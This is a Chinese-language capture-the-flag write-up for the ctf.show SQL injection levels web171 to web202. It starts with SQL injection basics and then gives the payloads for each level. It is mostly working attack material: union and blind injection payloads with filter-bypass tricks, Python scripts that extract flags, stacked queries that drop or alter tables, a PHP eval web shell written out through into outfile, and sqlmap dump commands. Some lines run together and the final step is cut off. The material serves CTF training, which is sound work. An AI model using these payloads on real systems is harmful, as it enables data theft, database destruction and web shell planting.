

前言
SQL注入原理
1.SQL注入概念及产生原因：
当web应用向后台数据库传递SQL语句进行数据库操作时，如果对用户输入的参数没有经过严格的过滤处理，那么攻击者就可以构造特殊
的SQL语句，直接输入数据库引擎执行，获取或修改数据库中的数据。
2.SQL注入的本质：
把用户输入的数据当作代码来执行，违背了“数据与代码分离”的原则
3.SQL注入的两个关键点：
1.用户能控制输入的内容；
2.web应用把用户输入的内容带入到数据库执行；
SQL注入基础危害：
1.盗取网站的敏感信息;
2.绕过网站后台认证 后台登录语句：
SELECT * FROM admin WHERE Username=‘user’ and Password=‘pass’ 万能密码：‘or ’1‘ = ’1‘ # ;3.借助SQL注入漏洞提权获取系统权限;
4.读取文件信息。
MYSQL数据库注入-常用函数：
（1）user() 返回当前使用数据库的用户，也就是网站配置文件中连接数据库的账号
（2）version() 返回当前数据库的版本
（3）database() 返回当前使用的数据库，只有在use命令选择一个数据库之后，才能查到
（4）group_concat() 把数据库中的某列数据或某几列数据合并为一个字符串
（5）@@datadir 数据库路径
（6）@@version_compile_os 操作系统版本
SQL（联合）注入流程：
?id=1 and 1=11、判断有无闭合
and 1=1 and 1=2 //结果和第一个一样说明需要闭合，反之无闭合 有闭合则需要用到 --+闭合2、猜解字段
order by 10 //采用二分法 3、判断数据回显位置
-1 union select 1，2，3，4，5.... //参数等号后面加-表示不显示当前数据 4、获取当前数据库名、用户、版本 union select version(),database()，user()，4…… 4、获取全部数据库名
union select 1,2,(select group_concat(schema_name)from information_schema.schemata)5、获取表名
union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema='库名'6、获取字段名
union select 1,2,(select group_concat(column_name)from information_schema.columns where table_name='表名'7、获取数据
union select 1,2,(select group_concat(字段1，字段2)from 库名.表名函数名称： 函数功能：
查 库： select schema_name from information_schema.schema
查 表： select table_name from information_schema.tables where table_schema=库名
查 列： select column_name from information_schema.columns where table_name=表名
查数据： select 列名 from 库名.表名万能密码：
1' or 1=1--+mysql操作符优先级：（数字越大，优先级越高）
优先级 运算符
1 :=
2 || , OR , XOR
3 && , AND
4 NOT
5 BETWEEN, CASE, WHEN, THEN, ELSE
6 =, <=>, >=, >, <=, <, <>, !=, IS, LIKE, REGEXP, IN
7 |
8 &
9 <<, >>
10 -, +
11 *, /, DIV, %, MOD
12 ^
13 - (一元减号), ~ (一元比特反转)
14 !
15 BINARY, COLLATE
总结–普通SQL注入必备条件：
1、界面能够回显数据库查询到的数据（必要条件）；
2、界面回显内容至少能够显示数据库中的某列数据（必要条件）；
3、部分能够直接提供数据库报错内容的回显；
web171-253
web171(单引号闭合)
查询语句
//拼接sql语句查找指定ID用户
$sql = "select username,password from user where username !='flag' and id = '".$_GET['id']."' limit 1;";根据流程拿到库 表 列名，最后拿到flag
第一题所以流程详细一点
首先尝试1’–+，发现有返回值；说明直接闭合正确；
接着找用来输出的列：1' order by 3--+，发现一共有3行(就1,2,3,4,5慢慢试出来)
查看数据库：1' union select 1,2,database()--+得到数据库名为ctfshow_web
爆破表名：-1' union select 1,2,group_concat(table_name) FROM information_schema.tables where table_schecma=database()--+得到表名：ctfshow_user
爆破列名：1' union select 1,2,group_concat(column_name) FROM information_schema.columns where table_schema=database() and table_name='ctfshow_user'--+，得到列名：id,username,password
爆破信息：1' union select 1,2,group_concat(id,username,password) FROM ctfshow_user--+，拿到flag。
整理一下：
爆出有哪些位置可以进行输出数据
1' order by 3--+
查看数据库名字
1' union select 1,2,database()--+
爆破表名：
-1' union select 1,2,group_concat(table_name) FROM information_schema.tables where table_schema=database()--+
爆破列名：
1' union select 1,2,group_concat(column_name) FROM information_schema.columns where table_schema=database() and table_name='ctfshow_user'--+
爆破数据：
1' union select 1,2,group_concat(id,username,password) FROM ctfshow_user--+有一个问题就是，这里用的是1而不是-1，居然能够爆出信息。可能是这里没有限定输出数据的量，所以能够用1，而不是用-1。
web172
跟上一题差不多，只不过这里把flag换到另一个表ctfshow_user2里了，而且字段数改为2了
爆破表名
-1' union select 1,2,group_concat(table_name) FROM information_schema.tables where table_schema=database()--+
爆破列名
-1' union select 1,2,group_concat(column_name) FROM information_schema.columns where table_schema=database() and table_name='ctfshow_user2'--+
爆破flag
-1' union select 1,2,group_concat(password) FROM ctfshow_user2 where username='flag'--+web173(回显检测)
返回逻辑多了限制，回显不能有flag，但是直接查flag回显是ctfshow
//检查结果是否有flag
if(!preg_match('/flag/i', json_encode($ret))){
$ret['msg']='查询成功';
}-1' union select 1,2,password from ctfshow_user3 where username = 'flag' --+
1' union select 1,2,group_concat('+',password) from ctfshow_user3 where username='flag'--+或者使用其他绕过姿势 编码绕过,base64，hex
1' union select 1,2,to_base64(password) from ctfshow_user3 where username='flag'--+
-1' union select 1,to_base64(username),hex(password) from ctfshow_user3 --+web174(replace)
//检查结果是否有flag
if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
$ret['msg']='查询成功';
}
限制了数字和flag
替换：将数据to_base64加密，然后将里面所有的数字用replace()替换
替换方式：1 @A,2 @B 3 @C等等
-1' union select 'a',replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(to_base64(password),"1","@A"),"2","@B"),"3","@C"),"4","@D"),"5","@E"),"6","@F"),"7","@G"),"8","@H"),"9","@I"),"0","@J") from ctfshow_user4 where username = 'flag' --+然后使用脚本解密得到flag
import base64
flag64 = " "
flag = flag64.replace("@A", "1").replace("@B", "2").replace("@C", "3").replace("@D", "4").replace("@E", "5").replace("@F", "6").replace("@G", "7").replace("@H", "8").replace("@I", "9").replace("@J", "0")
print(base64.b64decode(flag))web175(into outfile)
//检查结果是否有flag
if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
$ret['msg']='查询成功';
}
过滤ASCII0-127的字符
1.将flag查询结果传入1.txt，访问url/1.txt文件得flag
查询语句：
1' union select 1,password from ctfshow_user5 into outfile '/var/www/html/1.txt'--2.将一句话木马传入1.php，使用蚁剑链接后，访问数据库，查询flag
查询语句：
99' union select 1,"<?php eval($_POST[1]);?>" into outfile '/var/www/html/1.phpburp-decoder—>base64加密一句话木马，用url加密表示
payload:
99' union select 1,from_base64("%50%44%39%77%61%48%41%67%5a%58%5a%68%62%43%67%6b%58%31%42%50%55%31%52%62%4d%56%30%70%4f%7a%38%2b") into outfile '/var/www/html/1.phpweb176(大小写绕过)
ban了select，使用大小写绕过
1' union seLect 1,2,password from ctfshow_user--+web177(/**/绕过空格)
把空格给过滤掉了，就相当于把注释符– 给过滤掉了，我们可以用/**/或者是%0a（回车）来绕过空格的过滤，%23（#）来绕过注释符的过滤
1'/**/union/**/select/**/1,2,group_concat(password)/**/from/**/ctfshow_user/**/where/**/username='flag'%23web178(%090a0b0c0d绕空格*)
因为已经过滤了*，那么就需要用其它字符来绕过空格，可以选择
%09 tab%0a%0b%0c%0d 1'union%09select%0a1,2,password%0bfrom%0cctfshow_user%23万能密码
1'or%0a1=1%231’or'1'='1'%23web179
把%09 %0a %0b %0d过滤了，可以用%0c
把上面的那个全换成%0c
web180(闭合绕过%23)
过滤了空格和%23 ，空格可用%0c，%23用or'1'=''
-1'%0cunion%0cselect%0c1,2,group_concat(password)%0cfrom%0cctfshow_user%0cwhere%0cusername='flag'or'1'='-1'%0cor%0cusername%0clike%0c'flag'or'1'='1'--%0cweb181
同上
web182(like模糊匹配)
增加了flag过滤。like可以模糊匹配，或者同上万能密码
%0c在本题依旧可用。
-1'||(username)like'%fla%like可以用两个通配符（不区分大小写）：
| 字符 | 说明 |
|---|---|
% |
匹配任何数目的字符，甚至包括零字符 |
_ |
只能匹配一种字符 |
web183(布尔盲注)
查询语句
//拼接sql语句查找指定ID用户
$sql = "select count(pass) from ".$_POST['tableName'].";";
返回逻辑
//对传入的参数进行了过滤
function waf($str){
return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
}
查询结果
//返回用户表的记录总数
$user_count = 0;
waf又增加了一些，题目也有变化了。查询到的结果会返回到下面第三个灰块那里。
select不能用，就只能选择布尔盲注或者时间盲注了。
这题的解法是在已知表名的情况下实现的，再结合模糊匹配like或者正则匹配regexp。
写脚本前先测试一下语句是否能正常执行，可以的话，再写到脚本里。
因为每次查询记录总数都是1条，就是我们要找的flag，所以页面固定会出现$user_count = 1;，可以用布尔盲注。
tableName=`ctfshow_user`where`pass`like'ctfshow{%'tableName=`ctfshow_user`where(substr(`pass`,1,1)regexp('a'))Payload：
tableName=`ctfshow_user`where`pass`like'ctfshow{%'import requests
import time
url = 'https://b2eacc14-603c-45c4-bc2a-0ce02478cc81.challenge.ctf.show/select-waf.php'
flag = ''
flagstr = "ctfshow{qeryuipadgjklzxvbnm0123456789-}_"
for i in range(0, 37): # (1, 46)
for j in flagstr:
data = {
"tableName": "`ctfshow_user`where`pass`like\'ctfshow{}%\'".format(flag + j)
# 'tableName': f'`ctfshow_user`where(substr(`pass`,{i},1)regexp('{j}'))'
}
response = requests.post(url, data=data)
# 有并发数量限制的题目，就睡一段时间
time.sleep(0.3)
if response.text.find("$user_count = 1;") > 0:
print("[+] {} is right".format(j))
flag += j
break
else:
continue
print("ctfshow" + flag)
web184(right join having)
返回逻辑
//对传入的参数进行了过滤
function waf($str){
return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
}
where、' "、反引号被过滤了，但是本题没有过滤空格。
方法一：（用right join绕过过滤）
tableName=`ctfshow_user` as a right join ctfshow_user as b on substr(b.pass,1,1)regexp(char(46))RIGHT JOIN 关键字从右表（table2）返回所有的行，即使左表（table1）中没有匹配。如果左表中没有匹配，则结果为 NULL。
[right join菜鸟教程](SQL RIGHT JOIN 关键字 | 菜鸟教程 (runoob.com))
这里是分别将ctfshow_uer重命名为a和b，接着在b中进行筛选，然后用right join将b中筛选出来的值与a表的值进行匹配。
这里用$user_count = 43;作为筛选条件。
Y4tacker师傅的代码
# @Author:Y4tacker
import requests
url = "https://214a3dd9-ba25-480b-bdc0-0f33a1c754d8.challenge.ctf.show/select-waf.php"
flag = 'ctfshow{'
for i in range(45):
if i <= 8:
continue
for j in range(127):
data = {
"tableName": f"ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{i},1)regexp(char({j})))"
}
r = requests.post(url, data=data)
if r.text.find("$user_count = 43;") > 0:
if chr(j) != ".":
flag += chr(j)
print(flag.lower())
if chr(j) == "}":
exit(0)
break
方法二：（where用having代替，’ “可以用 ()+Hex代替）
查看官方文档，看看select语法。发现having和where可以替换，但是having语句有使用条件。
一个HAVING子句必须位于GROUP BY子句之后，并位于ORDER BY子句之前。
十六进制：可以前面加x，后面用引号包裹或者0x；也可以和算数运算结合表示数字。
tableName=ctfshow_user group by pass having pass like 0x63746673686f777b25 #ctfshow{%import requests
import time
url="http://24873af7-39c6-4235-85e2-f6433b80f182.challenge.ctf.show/select-waf.php"
flagstr="ctfshow{qeryuipadgjklzxvbnm0123456789-}_" #40
flag=""
for i in range(0,37):
for x in flagstr:
data={
"tableName":"ctfshow_user group by pass having pass like 0x63746673686f777b{}25".format("".join(hex(ord(i))[2:] for i in flag+x))
}
#print(data)
response=requests.post(url,data=data)
#有并发数量限制的，就睡一段时间
time.sleep(0.3)
if response.text.find("$user_count = 1;")>0:
print("[+] {} is right".format(x))
flag+=x
break
else:
continue
print("ctfshow{"+flag)
web185(true绕过数字)
//对传入的参数进行了过滤
function waf($str){
return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
}
数字被ban了

方法一：可以使用concat来拼接字符串

import requests
import time
import string
def formatString(str):
temp = "concat("
for x in str:
tip = 0
if x in string.digits:
tmp = int(x)
else:
tip = 1
temp += "char("
tmp = ord(x)
if tmp == 0:
temp += "false"
else:
temp_d = "("
for i in range(0, tmp):
temp_d += "true+"
temp_d = temp_d[:-1] + ")"
if tip == 1:
temp_d += ")"
temp += temp_d
temp += ","
temp = temp[:-1] + ")"
return temp
# print(formatString("0x63746673686f777b"))
url = "https://8ea77825-d310-4375-b330-8826bf8db1a3.challenge.ctf.show/select-waf.php"
# dic的顺序可以改一下！我是懒得改了！改顺序可以提高效率！！！
dic = "ctfshow{qeryuipadgjklzxvbnm0123456789-}_"
flag = "ctfshow{"
for i in range(0, 38):
for x in dic:
data = {
"tableName": "ctfshow_user group by pass having pass regexp({})".format(formatString(flag + x))
}
# print(data)
response = requests.post(url, data=data)
time.sleep(0.3)
if response.text.find("$user_count = 1;") > 0:
print("[+] {} is right".format(x))
flag += x
break
else:
# print("[--] {} is wrong".format(x))
continue
print("[flag]:" + flag)
方法二：继续使用right join
import requests
def creatNum(num):
res = "true"
if num == 1:
return res
else:
for i in range(num-1):
res += "+true"
return res
url = 'https://16d50b32-c89c-423e-aa09-841d997cb617.challenge.ctf.show/select-waf.php'
flag = "ctfshow{"
for i in range(9, 46):
for j in range(127):
data = {
"tableName": "ctfshow_user as a right join ctfshow_user as b on (substr(b.pass,{},true)regexp(char({})))".format(
creatNum(i), creatNum(j))
}
response = requests.post(url, data=data)
if response.text.find("$user_count = 43;") > 0 and chr(j) != '.':
print("[+] {} is right".format(chr(j)))
flag += chr(j)
break
else:
continue
print(flag.lower())
web186
function waf($str){
return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\%|\<|\>|\^|\x00|\#|\x23|[0-9]|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\|sleep|benchmark/i', $str);
}增加了尖括号，^、%的过滤。
上题的payload可用。
web187(ffifdyop绕过md5)
查询语句
//拼接sql语句查找指定ID用户
$sql = "select count(*) from ctfshow_user where username = '$username' and password= '$password'";
返回逻辑
$username = $_POST['username'];
$password = md5($_POST['password'],true);
//只有admin可以获得flag
if($username!='admin'){
$ret['msg']='用户名不存在';
die(json_encode($ret));
}
ffifdyop||129581926211651571912466741651878684928
经过md5加密后：276f722736c95d99e921722cf9ed621c
再转换为字符串：’or’6<乱码> 即 'or'66�]��!r,��b
web188(==弱比较)
返回逻辑
//用户名检测
if(preg_match('/and|or|select|from|where|union|join|sleep|benchmark|,|\(|\)|\'|\"/i', $username)){
$ret['msg']='用户名非法';
die(json_encode($ret));
}
//密码检测
if(!is_numeric($password)){
$ret['msg']='密码只能为数字';
die(json_encode($ret));
}
//密码判断
if($row['pass']==intval($password)){
$ret['msg']='登陆成功';
array_push($ret['data'], array('flag'=>$flag));
}
payload是：username=0 password=0
在比较查询的时候，查询语句为：select pass from ctfshow_user where username = 0 and password = 0;，由于username password是字符串，弱比较成了0,0=0成立，所条件就成立了；最后查询语句就成了：select pass from ctfshow_user where 1;
[
web189(locate load_file)
Hint：flag在api/index.php文件中
//用户名检测
if(preg_match('/select|and| |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\x26|\x7c|or|into|from|where|join|sleep|benchmark/i', $username)){
$ret['msg']='用户名非法';
die(json_encode($ret));
}
//密码检测
if(!is_numeric($password)){
$ret['msg']='密码只能为数字';
die(json_encode($ret));
}
//密码判断
if($row['pass']==$password){
$ret['msg']='登陆成功';
}
根据提示，先利用locate定位flag的位置，然后使用盲注来得到flag
LOCATE(字符串1,字符串2)
返回字符串1在字符串2中第一次出现的位置，只要字符串2中包含字符串1，那么返回值必然大于0。
username=0、password=0时，返回“密码错误”。（说明存在用户，但是密码错误）
username=1、password=0时，返回“查询失败”。（说明用户不存在）
可以利用以上返回情况来进行if逐字符盲注
import requests
url = 'https://deb43701-a2f5-42bf-817a-f374b486bcdf.challenge.ctf.show/api/'
def getFlagIndex():
head = 1
tail = 300
while head < tail:
mid = (head + tail) >> 1
data = {
"username": "if(locate('ctfshow{'," + "load_file('/var/www/html/api/index.php'))>{},0,1)".format(str(mid)),
"password": "1"
}
response = requests.post(url, data=data)
if "密码错误" == response.json()['msg']:
head = mid + 1
else:
tail = mid
return mid
def getFlag(index):
index = int(index)
flag = ''
for i in range(index, index + 46):
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
data = {
"username": "if(ascii(substr(load_file('/var/www/html/api/index.php'),{0},1))>{1},0,1)".format(str(i),str(mid)),
"password": "1"
}
response = requests.post(url, data=data)
if "密码错误" == response.json()['msg']:
head = mid + 1
else:
tail = mid
# mid += 1
if head != 32:
print("[+] {} is right".format(chr(head)))
flag += chr(head)
print(flag)
else:
break
if __name__ == '__main__':
mid = getFlagIndex()
getFlag(mid)
还有一个没有采用二分算法的
import requests
import time
url = "http://dc02940d-e22b-4796-ab0f-04bdf57d3a9f.challenge.ctf.show/api/"
flagstr = "}{<>$=,;_ 'abcdefghijklmnopqr-stuvwxyz0123456789"
flag = ""
#这个位置，是群主耗费很长时间跑出来的位置~
for i in range(257,257+60):
for x in flagstr:
data={
"username":"if(substr(load_file('/var/www/html/api/index.php'),{},1)=('{}'),1,0)".format(i,x),
"password":"0"
}
print(data)
response = requests.post(url,data=data)
time.sleep(0.3)
# 8d25是username=1时的页面返回内容包含的，具体可以看上面的截图~
if response.text.find("8d25")>0:
print("++++++++++++++++++ {} is right".format(x))
flag+=x
break
else:
continue
print(flag)
web190(常规bool blind)
输入 admin/123 输出密码错误
输入 test/123 输出用户名不存在
说明存在账号 admin
输入 admin’ and 1=1 # 输出密码错误
输入 admin’ and 1=2 # 输出用户名不存在
说明存在布尔盲注的条件
pass 长度为5 值为 admin
admin’ and length(pass) = 5 #
admin’ and pass = ‘admin’ #
说明 flag 并不是 pass 的值
接下来就是正常的盲注
import requests
url = 'https://55202cb2-6c46-4248-a593-31a004489e2a.challenge.ctf.show/api/'
flag = ''
i = 0
while True:
head = 32
tail = 127
i = i + 1
while head < tail:
mid = (head + tail) >> 1
# 查数据库 ctfshow_fl0g,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查字段 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
# getFlag
payload = "select f1ag from ctfshow_fl0g"
data = {
"username": "admin' and if(ascii(substr(({0}),{1},1))>{2},1,2)='1".format(payload, i, mid),
"password": "1"
}
response = requests.post(url, data=data)
if response.json()['msg'] == "密码错误":
head = mid + 1
else:
tail = mid
if head != 32:
flag += chr(head)
print("[+] {} is right".format(chr(head)))
print(flag)
else:
break
web191(ord)
//TODO:感觉少了个啥，奇怪
if(preg_match('/file|into|ascii/i', $username)){
$ret['msg']='用户名非法';
die(json_encode($ret));
}ban了ascii，可以使用ord
web192(regexp)
//TODO:感觉少了个啥，奇怪
if(preg_match('/file|into|ascii|ord|hex/i', $username)){
$ret['msg']='用户名非法';
die(json_encode($ret));
}ord hex都被ban了
import requests
import string
url = 'https://672395a7-518e-4be5-b990-8af1ef5202c4.challenge.ctf.show/api/'
flagstr = " _{}-" + string.ascii_lowercase + string.digits
flag = ''
for i in range(0,46):
for j in flagstr:
# 查数据库 ctfshow_fl0g,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查字段 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'"
# getFlag
payload = "select group_concat(f1ag) from ctfshow_fl0g"
data = {
"username": f"admin' and if(substr(({payload}),{i},1)regexp('{j}'),1,2)='1",
"password": 1
}
response = requests.post(url, data=data)
if response.json()['msg'] == "密码错误":
flag += j
print("[+] {} is right".format(j))
print(flag)
if j == '}':
exit(0)
breakweb193(left right)
过滤了file|into|ascii|ord|hex|substr，substr没了，可以用left() right()，其实也可以用mid()，这里将数据库名字给改了，和192的不一样，需要重新构造一个用来查询的语句。
import requests
url="http://df755a50-9318-495a-9788-1c5c721b44e2.challenge.ctf.show:8080/api/"
flagstr="abcdefghijklmnopqrstuvwxyz1234567890_{-} ,"
flag="ctf"
for i in range(3,45):
for j in flagstr:
change=flag+j
payload = f"admin' and if(left((select group_concat(f1ag)from ctfshow_flxg),{i})regexp('{change}'),1,0)=1#"
#payload = f"admin' and if((select group_concat(f1ag)from ctfshow_flxg)regexp('{change}'),1,0)=1#"
#第二个payload没有使用截断字符串的函数，直接使用regexp进行的匹配
data = {
'username': payload,
'password': '1'
}
r = requests.post(url, data=data)
if "密码错误" == r.json()['msg']:
flag += j
print(flag)
break
print(payload)可以将payload的left给去掉，直接正则匹配，不过需要起一个’ctfshow{‘的头就行就行。Y4大佬的做法是，将{放到了flagstr的前边
import requests
import string
url = "https://d8ecee4e-9c33-46b3-af79-befbc602b859.challenge.ctf.show/api/"
flagstr = " _{}-" + string.ascii_lowercase + string.digits
flag = 'ctf'
for i in range(1, 45):
for j in flagstr:
tmp = flag + j
# 查数据库 ctfshow_flxg,ctfshow_user
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 查字段 id,f1ag
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'"
# getFlag
payload = "select group_concat(f1ag) from ctfshow_flxg"
data = {
'username': f"admin' and if(({payload})regexp('{tmp}'),1,2)='1",
'password': '1'
}
response = requests.post(url, data=data)
if "密码错误" == response.json()['msg']:
flag += j
print("[+] {} is right".format(j))
print(flag)
if "}" == j:
exit(0)
break
二分法依然可行，只是并不是单独的字符比较，是字符串的比较，但原理是一样的。
即：ab=ab，ab<ac，是对字符串不一致的第一字符进行比较。
import requests
import sys
import time
import string
url = "http://fa58a58a-11d4-4c3e-9009-e7a0c53565b8.challenge.ctf.show/api/"
flag = ""
for i in range(1,60):
max = 127
min = 32
while 1:
mid = (max+min)>>1
if(min == mid):
flag += chr(mid)
print(flag.lower())
break
payload = "admin'and ((left((select f1ag from ctfshow_flxg),{})<'{}'))#".format(i,flag+chr(mid))
#print(payload)
data = {
"username":payload,
"password":0,
}
res = requests.post(url = url,data =data)
time.sleep(0.3)
if res.text.find("8bef")>0:
max = mid
else:
min = mid
web194(lpad)
//TODO:感觉少了个啥，奇怪
if(preg_match('/file|into|ascii|ord|hex|substr|char|left|right|substring/i', $username)){
$ret['msg']='用户名非法';
die(json_encode($ret));
}left right被ban了，可以直接正则匹配，不过直接正则的方法有局限
找一找其他和截取有关的函数，发现lpad()。
lpad(str,len,padstr)lpad()函数返回字符串str，len小于字符串长度相当于字符串截取；大于字符串长度，则在左填充用字符串padstr直到达到len字符长度。
有左填充，一般就是右填充，找到rpad()，用法和lpad()类似。
import requests
import sys
import time
url = "http://8be98a09-12b0-4f66-807f-899826d58216.challenge.ctf.show/api/"
flagstr = ",_}{abcdefghijklmnopqr-stuvwxyz0123456789"
tempstr = ""
flag = ""
for i in range(1,60):
for mid in flagstr:
#payload = "admin'and ((lpad((select database()),{},'')='{}'))#".format(i,tempstr+mid)
#ctfshow_web
#payload = "admin'and ((lpad((select group_concat(table_name) from information_schema.tables where table_schema=database()),{},'')='{}'))#".format(i,tempstr+mid)
#ctfshow_flxg
#payload = "admin'and ((lpad((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flxg'),{},'')='{}'))#".format(i,tempstr+mid)
#id,f1ag
payload = "admin'and ((lpad((select f1ag from ctfshow_flxg),{},'')='{}'))#".format(i,tempstr+mid)
data = {
"username":payload,
"password":0,
}
res = requests.post(url = url,data =data)
time.sleep(0.3)
if res.text.find("8bef")>0:
tempstr += mid
flag += mid
print("++++++++++++++++++++"+flag)
break
web195(堆叠注入)
返回逻辑
//密码检测
if(!is_numeric($password)){
$ret['msg']='密码只能为数字';
die(json_encode($ret));
}
//密码判断
if($row['pass']==$password){
$ret['msg']='登陆成功';
}
//TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
if(preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|\'|\"|select|union|or|and|\x26|\x7c|file|into/i', $username)){
$ret['msg']='用户名非法';
die(json_encode($ret));
}
if($row[0]==$password){
$ret['msg']="登陆成功 flag is $flag";
}
过滤了select，单双引号也被过滤，没有报错提示。
没有过滤分号，考虑堆叠注入。但不能有空格，可以通过反引号包裹表名等信息的方式绕过空格过滤。
0;update`ctfshow_user`set`pass`=1这里用update将pass改为1，可以登陆成功
因为查询语句的where判断是username={$username}，并没有引号包裹，那么就可以输入数字了。
sql里，数字和字符串的匹配是弱类型比较，字符串会转换为数字，如0==admin，那么如果输入的username是0，则会匹配所有开头不
是数字或者为0的字符串和数字0
但是可以使用另一种方法
payload="0x61646d696e;update`ctfshow_user`set`pass`=0x313131;"
# 至于为什么非得用十六进制登录，是因为下面这个没有字符串单引号包围
sql = "select pass from ctfshow_user where username = {$username};";web196(select row[0])
这道题目的select虽然写的是被过滤了，但是实际并没有被过滤。（根据群里的反馈，说群主本来是打算把过滤select写成se1ect，但是
忘记改了。不过se1ect也并没有被过滤，感觉纯粹就是没有加select的过滤～）
可以用select绕过password的if判断。
判断条件满足的设定是$row[0]==$password，$row存储的是结果集中的一行数据，$row[0]就是这一行的第一个数据。既然可以堆叠注
入，就是可以多语句查询，$row应该也会逐一循环获取每个结果集。
那么可以输入username为1;select(9)，password为9。当$row获取到第二个查询语句select(9)的结果集时，即可获得$row[0]=9，那
么password输入9就可以满足条件判断。同样输入其他密码也可以
web197(alert修改字段 show tables drop)
返回逻辑
//TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set//i', $username)){
$ret['msg']='用户名非法';
die(json_encode($ret));
}
if($row[0]==$password){
$ret['msg']="登陆成功 flag is $flag";
}
这次select被ban了
方法一
利用show。根据题目给的查询语句，可以知道数据库的表名为ctfshow_user，那么可以通过show tables，获取表名的结果集，在这个
结果集里定然有一行的数据为ctfshow_user。
用户名：1;show tables
密码：ctfshow_user
方法二
可以利用alter修改字段名，把id和pass对调，然后爆破id。
ALTER TABLE 语句用于在已有的表中添加、修改或删除列。
0;alter table ctfshow_user change column `pass` `a` varchar(255);alter table ctfshow_user change column `id` `pass` varchar(255);alter table ctfshow_user change column `a` `id` varchar(255)import requests
url = "https://1a4c8604-7c24-4000-a07a-b9c23f8c0ca3.challenge.ctf.show/api/"
for i in range(100):
if i == 0:
data = {
'username': '0;alter table ctfshow_user change column `pass` `ppp` varchar(255);alter table ctfshow_user '
'change column `id` `pass` varchar(255);alter table ctfshow_user change column `ppp` `id` '
'varchar(255);',
'password': f'{i}'
}
r = requests.post(url, data=data)
data = {
'username': '0x61646d696e', # 0
'password': f'{i}'
}
r = requests.post(url, data=data)
if "登陆成功" in r.json()['msg']:
print(f"[+]id {i} is right")
print(r.json()['msg'])
break
方法三
更新表。过滤了update，但我们可以删表，重新建一个同样表名的表，列名给的查询语句也已经告知，分别是username和pass。
0;drop table ctfshow_user;create table ctfshow_user(`username` varchar(100),`pass` varchar(100));insert ctfshow_user(`username`,`pass`) value(1,1)这里的意思就是删除以前的表，再自己新建一个并且插入数据：username=1，pass=1
然后直接输入1为用户名和密码，登录即可得到flag。
web198
过滤了create drop，但可以用其他方法
wen199
//TODO:感觉少了个啥，奇怪,不会又双叒叕被一血了吧
if('/\*|\#|\-|\x23|\'|\"|union|or|and|\x26|\x7c|file|into|select|update|set|create|drop|\(/i', $username)){
$ret['msg']='用户名非法';
die(json_encode($ret));
}方法一：本题依然可以使用show tables。
方法二：本题过滤了括号，限制了之前payload中的varchar(100)，可以改为text。
0;alter table ctfshow_user change `pass` `tmp` text;alter table ctfshow_user change `username` `pass` text;alter table ctfshow_user change `tmp` `username` text;web200
增加了逗号的过滤，不影响。web199的两个方法都可以用。
web201(Sqlmap –referer)
SQLmap使用顺序：
- 获取当前MySQL中的所有数据库
sqlmap -u http://xxx - 获取当前数据库名字
- 获取数据库下的数据表
- 获取表下的列名
- 导出数据
设置多线程
python sqlmap.py -u "http://127.0.0.1/sqli/Less-1/?id=1" --threads=5 --banner -v 5要添加一个referer头
查数据库：python sqlmap.py -u "https://9c35c10b-b7d4-45d6-b7a1-9edc4248e8c2.challenge.ctf.show/api/?id=1" --referer="ctf.show" -dbs查表名：python sqlmap.py -u "https://9c35c10b-b7d4-45d6-b7a1-9edc4248e8c2.challenge.ctf.show/api/?id=1" --referer="ctf.show" -D ctfshow_web --tables
查列名：python sqlmap.py -u "https://9c35c10b-b7d4-45d6-b7a1-9edc4248e8c2.challenge.ctf.show/api/?id=1" --referer="ctf.show" -D ctfshow_web -T ctfshow_user --columns查Flag：python sqlmap.py -u "https://9c35c10b-b7d4-45d6-b7a1-9edc4248e8c2.challenge.ctf.show/api/?id=1" --referer="ctf.show" -D ctfshow_web -T ctfshow_user -C "id,pass,username" --dumpweb202(–data)
–data=DATA 该参数指定的数据会被作为POST数据提交
使用post方式进行注入，可以直接用--data="id=1"，也可以--method=post来触发
1.使用data调整参数
python sqlmap.py -u "https://a7352dd5-2c20-40e5-bef5-6aaa79676dcc.challenge.ctf.show/api/" --referer="ctf.show" --data="id=1"
2.查库
python sqlmap.py -u "https://a7352dd5-2c20-40e5-bef5-6aaa79676dcc.challenge.ctf.show/api/" --referer="ctf.show" --data="id=1" --dbs
3.查表
python sqlmap.py -u "https://a7352dd5-2c20-40e5-bef5-6aaa79676dcc.challenge.ctf.show/api/" --referer="ctf.show" --data="id=1" -D ctfshow_web --tables
4.查列
python sqlmap.py -u "https://a7352dd5-2c20-40e5-bef5-6aaa79676dcc.challenge.ctf.show/api/" --referer="ctf.show" --data="id=1" -D ctfshow_web -T ctfshow_user --columns
5.查Flag
